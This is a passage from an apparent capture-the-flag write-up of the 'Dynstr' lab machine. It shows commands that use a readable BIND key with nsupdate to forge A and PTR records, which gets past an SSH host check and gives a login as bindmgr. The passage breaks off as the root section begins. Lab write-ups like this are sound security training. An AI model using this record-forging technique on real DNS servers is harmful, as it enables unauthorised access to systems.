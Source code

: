   After some research, found that this REFUSED error could be due to the key used and, checking the directory where the `ddns.key` was located, found 2 other files (as below), where the include using the file `infra.key` worked successfully **BUT** I still wasn't able to connect using SSH.

  ```bash
  www-data@dynstr:/dev/shm$ ls -la /etc/bind/*.key
  -rw-r--r-- 1 root bind 100 Mar 15 20:44 /etc/bind/ddns.key
  -rw-r--r-- 1 root bind 101 Mar 15 20:44 /etc/bind/infra.key
  -rw-r----- 1 bind bind 100 Mar 15 20:14 /etc/bind/rndc.key
  ```

  Doing some troubleshooting, noticed that I was able to solve the `attacker.infra.dyna.htb` but the reverse lookup of the IP address wasn't possible. To fix this, I have added another entry in the `nsupdate` command to also include a PTR record to the IP as below. A crucial point I also had to troubleshoot was that the A and PTR records **must be separated by a blank line**, otherwise the update would fail.

  ```bash
  www-data@dynstr:/dev/shm$ cat nsupdate
  server 127.0.0.1
  update add attacker.infra.dyna.htb 30 A 10.10.10.10
  send
  
  update add 121.14.10.10.in-addr.arpa 30 PTR attacker.infra.dyna.htb
  send
  www-data@dynstr:/dev/shm$ cat nsupdate | /usr/bin/nsupdate -t 1 -k /etc/bind/infra.key
  www-data@dynstr:/dev/shm$
  ```

  After that adjustment, I was able to SSH as `bindmgr` and read the content of `user.txt` file

  ```bash
  bindmgr@dynstr:~$ ls -la
  total 36
  drwxr-xr-x 5 bindmgr bindmgr 4096 Mar 15 20:39 .
  drwxr-xr-x 4 root    root    4096 Mar 15 20:26 ..
  lrwxrwxrwx 1 bindmgr bindmgr    9 Mar 15 20:29 .bash_history -> /dev/null
  -rw-r--r-- 1 bindmgr bindmgr  220 Feb 25  2020 .bash_logout
  -rw-r--r-- 1 bindmgr bindmgr 3771 Feb 25  2020 .bashrc
  drwx------ 2 bindmgr bindmgr 4096 Mar 13 12:09 .cache
  -rw-r--r-- 1 bindmgr bindmgr  807 Feb 25  2020 .profile
  drwxr-xr-x 2 bindmgr bindmgr 4096 Mar 13 12:09 .ssh
  drwxr-xr-x 2 bindmgr bindmgr 4096 Mar 13 14:53 support-case-C62796521
  -r-------- 1 bindmgr bindmgr   33 Aug 16 15:49 user.txt
  bindmgr@dynstr:~$ cat use
  cat: use: No such file or directory
  bindmgr@dynstr:~$ cat user.txt
  <redacted>
  ```

## Root flag

As always, started with a `sudo -l` command, where I found that the `bindmgr` user is capable to run the script below as root:
